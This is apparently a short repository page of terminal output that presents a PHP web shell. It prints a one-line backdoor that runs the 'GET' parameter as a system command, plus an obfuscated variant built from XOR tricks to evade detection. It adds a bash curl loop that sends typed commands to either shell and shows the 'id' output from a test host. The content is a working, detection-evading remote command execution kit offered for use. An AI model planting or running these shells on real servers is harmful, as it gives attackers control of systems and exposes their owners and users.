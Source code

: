 $ cat backdoor.php
<?=`$_GET[0]`?>

$ cat obfuse.php
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>

$ cat cli.sh
while true;do read -p "[>] halah@wibu:~$ " cmd;curl $1$cmd;done

$ bash cli.sh http://localhost:2018/backdoor.php?0=

[>] halah@wibu:~$ id
uid=10198(u0_a198) gid=10198(u0_a198) groups=10198(u0_a198),3003(inet),9997(everybody),20198(u0_a198_cache),50198(all_a198),99909997(u999_everybody)


$ bash cli.sh http://localhost:2018/obfuse.php?0=

[>] halah@wibu:~$ id
uid=10198(u0_a198) gid=10198(u0_a198) groups=10198(u0_a198),3003(inet),9997(everybody),20198(u0_a198_cache),50198(all_a198),99909997(u999_everybody)
